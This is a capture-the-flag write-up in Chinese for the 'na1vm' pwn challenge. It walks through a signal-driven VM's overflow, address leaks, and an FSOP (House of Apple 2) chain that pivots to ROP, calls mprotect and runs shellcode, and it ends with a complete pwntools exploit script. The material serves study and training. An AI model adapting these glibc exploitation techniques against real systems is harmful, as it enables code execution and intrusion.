



# na1vm

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |
|libc  |2.42-2ubuntu2|

## 解题思路

### 分析程序

这题分为两个程序，前后端之间使用信号进行交流，前端负责处理文本输入输出，
后端负责处理vm指令。两个程序之间使用SIG35实时信号，并附带一个64位数据来交换信息。
关于前端也没啥大漏洞，主要就是要逆一下后端 `child`。由于是使用`sigqueue`来传输信号的，
所以还是异步通信。关于指令表达的约定与child中bss上分布的数据如下图所示。



根据操作码op，大致可以按如下分类所有的操作：

```plaintext
0:      store word (stack + offset 需在 gbuf 范围内)
1:      load word (stack + offset 需在 gbuf 范围内)
2:      add reg
3:      sub reg
8:      push reg + imm (stack != gbuf end)
9:      push reg - imm (stack != gbuf end)
10:     pop reg + imm (stack != gbuf start)
11:     pop reg - imm (stack != gbuf start)
0x10:   lea stack or reg (offset 需等于 rand2)
0x40:   reset (offset 需等于 rand2)
0x80:   sleep (offset 需等于 rand2)
0xff:   execute queue
```

> [!TIP]
> 调试时可以使用 `handle SIG35 noprint nostop pass` gdb命令来跳过所有信号。

> [!TIP]
> 别学题目里那样用`while(true);`来让程序一直运行，这会使CPU空转，导致消耗大量性能！
> 最合适的是使用 [pause() 函数](https://man7.org/linux/man-pages/man2/pause.2.html)，
> 这个函数对应的系统调用会将进程挂起，直到收到信号，非常贴合这题的场景：
> 在没收到信号时什么都不做，而且不消耗CPU。

### 溢出与信息泄露

观察内存布局可以发现当`stack + offset == gbuf + 0xffff`时，既满足范围，
同时由于一次写入4个字节，所以会有3个字节的溢出，溢出到`qhead`、`qtail`和`size`。
阅读接受指令时的代码，其先写入指令（`requeue[qtail] = sigval`），
再判断是否溢出（`qtail >= capacity`），因此当`qtail`被我们之前溢出时设置为一个较大的数字时，
就可以在读取指令时基于`requeue`做溢出，并且溢出完还会被强制修改`qtail`为0，
执行不到我们输入的指令。计算一下偏移，当`qtail == 0x8c`时，可以修改`rand1`和`rand2`，
我们将其全部设为0，方便后面操作；当`qtail == 0x8b`时，可以控制`stack`。

当使用溢出修改`qtail`后，就可以操纵输入的指令修改`rand2`，然后靠16号操作泄露程序基地址信息，
重置一下，再利用一次，把`qtail`修改并输入指令修改`stack`使其指向`stderr`，
这样libc基址也有了。为了方便后续利用，我们继续将`stderr`利用push还原为原始值，
然后不断push直到`stack`回到`gbuf`，这样我们又能修改一次`stack`。

> [!IMPORTANT]
> 后续利用的使用会调用到`perror`，其会访问`stderr`，所以必须还原为`_IO_2_1_stderr_`，
> 或者合法的结构体，否则会崩溃。（后面想了一下劫持`stderr`其实会更快一些，
> `perror`里面必然会触发IO操作，直接做FSOP就行了）

### 如何利用

到目前为止，我们有了所有信息，但是没法利用。一开始我想的是从`environ`拿栈地址，
加上信号返回的机制打SROP，然而，由于0号操作的限制，如果我把`stack`改到了libc里，
我就没法再修改`stack`了，因此没法修改栈上信息。查看系统调用，
`sigqueue`貌似也没啥可控制的全局变量。

本来还想能不能通过修改`capacity`，并且把`qtail`设回0，来再次写一遍`stack`，
然而，要想写`stack`，就必须保留`qtail`为0x8b，而一旦继续添加命令，就会触发`capacity = 0x80`，
导致没法写到`stack`，这条路走不通。

再次查看发送信号的函数，当`sigqueue`函数调用失败时，会执行 `perror("sigqueue"); exit(1);`，
既然有了libc，那我们可以改 `_IO_list_all`，触发FSOP。但是怎么使它出错呢？查看man文档，
以及 `__libc_current_sigrtmin()` 函数的定义，发现返回值是来自 `current_rtmin` 这个libc变量的，
那么我们修改`stack`使之修改 `current_rtmin` 为一个很大的数字，这样执行 `sigqueue`
发送的信号值就不合法 (`__libc_current_sigrtmin() + 1`)，系统调用失败，最终走`exit`，
然后触发`_IO_flush_all`，触发FSOP。

查看 `current_rtmin` 和 `_IO_list_all` 的符号地址，前者比后者低，因此我的做法是先把`stack`设置到
`_IO_list_all`，修改为伪造的文件结构体指针后不断pop，直到`stack`被递减至 `current_rtmin`
的地址，此时再push一个大的数字，就可以使信号发送返回错误。

> [!TIP]
> 由于这两个变量离得非常远，大约 **0x1400** 字节，即要执行 **1280** 次pop，
> 因此一条一条执行的话会比较费时间，可以发送时把数字全放一块，一口气把大量数字请求发送过去，
> 不等待IO通知是否写入成功，可以大大加快速度。(即 *pipeline*)

### FSOP

利用链已经形成了，最后就是要构造必要的结构。首先是伪造一个结构体，让exit在执行 `_IO_flush_all`
时调用到伪造的文件，触发 House of Apple 2，做栈迁移；然后通过栈迁移做rop执行 `mprotect`
把我们写的shellcode，改成rwx，最后跳转到shellcode执行。

这次我用的是RediShell同款方案 **iced-x86** 来编写shellcode，先将 `current_rtmin` 还原，
然后就可以复用程序里有的 `sendval` 函数，从文件中读取flag到缓冲区中并逐字节向前端发送，
最后以 0 结尾表达flag结束。

最后把这些构造好的结构在利用前通过store word放到`gbuf`中方便我们稍后利用即可。

> [!IMPORTANT]
> 这里伪造FILE结构体的时候用的是 [强网杯 bph](https://rocketma.dev/2025/10/25/bph/)
> 同款方案，当时能直接控制rdx，然后就能直接改写rsp，但是最新版本libc的编译逻辑变了，
> `_IO_wdoallocbuf` 函数中会把rdi赋给rdx，而rdi是fp指针，此时ret会跳转到FILE结构体中，
> 对于这种情况，我把`*fp`设为了`pop rsp; ret`的gadget，然后把`*(fp + 8)`设为了我们栈迁移位置，
> 这样连续执行两次栈迁移就可以把栈设置到正确的位置。
>
> 

通篇看下来，从漏洞寻找到利用链构建再到多个结构体构造，复杂得令人咋舌。

## EXPLOIT

```python
from pwn import *
from rich.progress import track
from iced_x86 import (
    BlockEncoder,
    Code,
    Instruction as Inst,
    Register as Reg,
    MemoryOperand as MO,
)
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './na1vm'
STW, LDW, ADD, SUB, PUSHW, PUSHWS, POPW, POPWS, LEA, RST = \
0,   1,   2,   3,   8,     9,      10,   11,    16,  64

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        libc = ELF('./libc.sys.debug')
    else:
        t = remote('1.95.217.9', 9000)
        libc = ELF('./libc.debug')

    elf = ELF('./child')

    def mkcode(imm: int, offset: int, r1: int, r2: int) -> int:
        return imm | (offset << 32) | (r1 << 48) | (r2 << 52)

    def submit(op: int, imm: int, offset: int, r1: int, r2: int) -> int:
        t.sendline(b'1')
        t.recvuntil(b'$ \n')
        t.sendline(str(op).encode())
        t.sendline(str(mkcode(imm, offset, r1, r2)).encode())
        t.recvuntil(b'Execute result: ')
        return int(t.recvline())

    def execute(count: int, free: bool=False) -> list[int]:
        t.sendline(b'2')
        if free:
            return []
        results = []
        for _ in range(count):
            t.recvuntil(b'Execute result: ')
            res = int(t.recvline())
            if res & 0x8000000000000000:
                warn('Execute failed!')
            results.append(res)
        return results

    if lo & 2:
        pause()

    # overflow gbuf 3 bytes to overwrite qhead, qtail and size
    submit(STW, u32(b'\x00\x00\x8c\x00'), 0xffff, 0, 0)
    execute(1)
    submit(STW, 0, 0, 0, 0) # set qtail to rand1 and rand2; empty them
    # NOTE: overflow qtail lead to reset back to 0, so we execute 2 below
    submit(LEA, 0, 0, 1, 0) # if r1 is not 0, sendback "stack"
    submit(RST, 0, 0, 0, 0) # now we "know" rand2 and can trigger LEA and RST
    gbuf = execute(2)[0]
    pie_base = gbuf - 0x4060
    elf.address = pie_base
    success(GOLD_TEXT(f'Leak pie_base: {pie_base:#x}'))

    # overflow 3 bytes
    submit(STW, u32(b'\x00\x00\x8b\x00'), 0xffff, 0, 0)
    execute(1)
    submit(STW, elf.symbols['stderr'] + 4, 0, 0, 0)
    submit(POPW, 0, 0, 1, 1) # set "stack" to stderr + 4 to leak _IO_2_1_stderr_
    submit(POPW, 0, 0, 2, 2)
    submit(RST, 0, 0, 0, 0)
    h32, l32, _ = execute(3)
    libc_base = ((h32 << 32) | l32) - libc.symbols['_IO_2_1_stderr_']
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base
    # reset back "stack" to gbuf
    # NOTE: stderr is used in perror, so we need to recover it
    submit(PUSHW, 0, 0, 0, 0)
    submit(PUSHW, libc.symbols['_IO_2_1_stderr_'] & 0xffffffff, 0, 3, 3)
    submit(PUSHW, libc.symbols['_IO_2_1_stderr_'] >> 32, 0, 3, 3)
    for _ in range(6):
        submit(PUSHW, 0, 0, 0, 0)
    execute(9)

    chain_addr     = pie_base + 0x50a0 # gbuf + 0x1040 as function call need space
    file_addr      = pie_base + 0x5110
    flag_addr      = pie_base + 0x5200
    shellcode_addr = pie_base + 0x5208

    gadgets = ROP(libc)
    # look for "mov rsp, rdx; ret", "pop rsp; ret" and "pop rdx; xor eax, eax; ret"
    mov_rsp_rdx_ret = next(libc.search(b'H\x89\xd4\xc3', executable=True))
    for gadget in libc.search(b'\x5c\xc3', executable=True):
        if gadget & 4 == 0:
            pop_rsp_ret = gadget
    pop_rdx_xor_eax = next(libc.search(b'Z1\xc0\xc3', executable=True))
    info(f'Found stack pivot gadget: {mov_rsp_rdx_ret:#x}')
    info(f'Found leave gadget: {pop_rsp_ret:#x}')
    # rop chain to set gbuf to rwx and then jump to shellcode
    chain = flat(
        gadgets.rdi.address, chain_addr & ~0xfff,
        gadgets.rsi.address, 0x1000,
        pop_rdx_xor_eax, 7,
        libc.symbols['mprotect'],
        shellcode_addr,
    )
    # forge a file to perform FSOP (stack pivot to our rop chain)
    wfile_jumps_mmap = libc.symbols['__io_vtables'] + 6 * 168
    forge_file = flat({
        0:      0, # wide_read_ptr
        8:      0, # wide_read_end
    }, {
        0:      pop_rsp_ret,                # _flags ~4
        8:      chain_addr,                 # IO_read_ptr & RDX
        0x10:   chain_addr + 1,             # IO_read_end
        0x28:   1,                          # IO_write_ptr
        0x68:   mov_rsp_rdx_ret,            # DOALLOCATE
        0x88:   file_addr - 0x18,           # lock
        0xa0:   file_addr - 0x10,           # wide_data
        0xc0:   -1,                         # mode
        0xd0:   file_addr,                  # wide_vtable
        # we need to call _IO_wfile_underflow
        0xd8:   wfile_jumps_mmap - 0x40,    # vtable
    }, filler=b'\0')

    def label(inst: Inst, l: int) -> Inst:
        inst.ip = l
        return inst

    # shellcode to read flag and send bytes via sigqueue
    instrs = [
        Inst.create_reg_i64(Code.MOV_R64_IMM64, Reg.RBX, pie_base + 0x1acc), # sendval
        Inst.create_reg_i64(Code.MOV_R64_IMM64, Reg.RDX, libc.symbols['current_rtmin']),
        Inst.create_mem_i32(Code.MOV_RM16_IMM16, MO(Reg.RDX), 0x22), # restore rtmin

        # fd = open("/flag", 0)
        Inst.create_reg_i64(Code.MOV_R64_IMM64, Reg.RDI, flag_addr),
        Inst.create_reg_reg(Code.XOR_R32_RM32, Reg.ESI, Reg.ESI),
        Inst.create_reg_i32(Code.MOV_R32_IMM32, Reg.EAX, 2),
        Inst.create(Code.SYSCALL),

        # read(fd, gbuf_space, 0x50)
        Inst.create_reg_i32(Code.ADD_RM64_IMM32, Reg.RDI, 0x1000),
        Inst.create_reg_reg(Code.MOV_R64_RM64, Reg.RSI, Reg.RDI),
        Inst.create_reg_i32(Code.MOV_R32_IMM32, Reg.EDX, 0x50),
        Inst.create_reg_reg(Code.MOV_R32_RM32, Reg.EDI, Reg.EAX),
        Inst.create_reg_i32(Code.MOV_R32_IMM32, Reg.EAX, 0),
        Inst.create(Code.SYSCALL),

        # send flag byte by byte via sendval, and end flag stream with a 0
        Inst.create_reg_reg(Code.MOV_R64_RM64, Reg.R15, Reg.RSI),
        label(Inst.create_reg_mem(Code.MOVZX_R32_RM8, Reg.R14D, MO(Reg.R15)), 1),
        Inst.create_reg_i32(Code.ADD_RM64_IMM32, Reg.R15, 1),
        Inst.create_reg_reg(Code.MOV_R32_RM32, Reg.EDI, Reg.R14D),
        Inst.create_reg(Code.CALL_RM64, Reg.RBX),
        Inst.create_reg_reg(Code.TEST_RM32_R32, Reg.R14D, Reg.R14D),
        Inst.create_branch(Code.JNE_REL8_64, 1),

        # alarm(5)
        Inst.create_reg_i32(Code.MOV_R32_IMM32, Reg.EDI, 5),
        Inst.create_reg_i32(Code.MOV_R32_IMM32, Reg.EAX, 0x25),
        Inst.create(Code.SYSCALL),

        # pause()
        Inst.create_reg_i32(Code.MOV_R32_IMM32, Reg.EAX, 0x22),
        Inst.create(Code.SYSCALL),
        Inst.create(Code.NOPQ),
        Inst.create(Code.NOPQ),
    ]
    encoder = BlockEncoder(64)
    encoder.add_many(instrs)
    shellcode = encoder.encode(0)
    blob = flat({
        0: chain, 0x60: forge_file, 0x160: b'/flag', 0x168: shellcode,
    }, filler=b'\0')

    def send_blob(buf: bytes, offset: int):
        send_times = len(buf) // 4
        for i in track(range(send_times), 'Sending the blob...'):
            submit(STW, u32(buf[4 * i : 4 * i + 4]), offset + 4 * i, 0, 0)
            if (i + 1) % 0x40 == 0:
                execute(0x40) # execute half of queue depth at once to save some time
        if todo := send_times % 0x40:
            execute(todo)

    send_blob(blob, 0x1040)

    def decrease_stack(distance: int):
        times = distance >> 2
        for i in track(range(times), 'Decreasing stack...'):
            submit(POPW, 0, 0, 0, 0)
            if (i + 1) % 0x40 == 0:
                execute(0x40)
        if todo := times % 0x40:
            execute(todo)

    # overflow 3 bytes to overwrite "stack" to _IO_list_all
    submit(STW, u32(b'\x00\x00\x8b\x00'), 0xffff, 0, 0)
    execute(1)
    submit(STW, libc.symbols['_IO_list_all'], 0, 0, 0)
    submit(PUSHW, file_addr & 0xffffffff, 0, 3, 3) # overwrite _IO_list_all to forge_file
    submit(PUSHW, file_addr >> 32, 0, 3, 3)
    submit(RST, 0, 0, 0, 0)
    execute(3)

    # keep poping until "stack" decreased to current_rtmin
    decrease_stack(libc.symbols['_IO_list_all'] + 8 - libc.symbols['current_rtmin'])
    submit(PUSHW, 0xffff, 0, 3, 3) # set current_rtmin to 0xffff (lead to sigqueue failure)
    execute(1, True)

    # recv flag from daemon
    flag = ''
    ch = 1
    while ch:
        t.recvuntil(b'Execute result:')
        ch = int(t.recvline())
        if 0x20 <= ch < 0x7f:
            flag += chr(ch)

    success(f'Flag is: {flag}')

    t.clean()
    t.close()
```



## 参考

1. [pause(2) — Linux manual page](https://man7.org/linux/man-pages/man2/pause.2.html)
2. [强网杯 S9 2025 初赛 - bph](https://rocketma.dev/2025/10/25/bph/)
